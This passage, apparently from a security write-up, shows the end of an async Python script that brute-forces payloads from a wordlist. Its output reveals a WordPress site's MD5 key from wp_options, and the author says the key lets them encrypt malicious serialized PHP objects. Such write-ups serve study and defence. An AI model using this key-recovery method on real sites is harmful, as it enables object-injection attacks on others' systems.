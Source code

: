 ```python
        
        # Wait until the queue is empty and the workers finish
        await queue.join()
        for w in workers:
            await w

if __name__ == '__main__':
    # Set the starting line for debugging (for production, set to 1)
    DEBUG_START_LINE = 1  # For example, for debugging you might use 1000
    print(f"DEBUG_START_LINE set to: {DEBUG_START_LINE}")

    # Count the total number of payloads to process starting from DEBUG_START_LINE
    with open("hashes.txt", "r") as f:
        total_payload = sum(1 for i, _ in enumerate(f, 1) if i >= DEBUG_START_LINE)
    print(f"Total payloads to process: {total_payload}")

    asyncio.run(main())

```

The result should look like this : 

```

DEBUG_START_LINE set to: 12908000
Total payloads to process: 2401001
100/2401001
200/2401001
300/2401001
400/2401001
500/2401001
600/2401001
700/2401001
800/2401001
900/2401001
1000/2401001
1100/2401001
1200/2401001
1300/2401001
1400/2401001
Status 500 triggered by payload: LbP22PDdjW/nEKRPpW0ML6h68Qu5HY/j4zM/GrOcQ/IlZKqT386kmLzPEMenFJxkoZIhnvG6bHXLyOV15Z7k8hH0HOVutwsJICyChqmSCxJyE+gJ1Lg12KGL3J3OUhHr with MD5: 1ea5aaa45f46e51857793f651b576cc6

```

Since I already knew the location of my payload I added a flag for debugging purposes indicating the wordlist line from which to start , the correct payload in my case was at about the 12909000th position.

And as you can see from the result the md5 key returned is the same as in the database `wp_options` , so now that we have the md5 key we can serialize and encrypt any malicious php object 
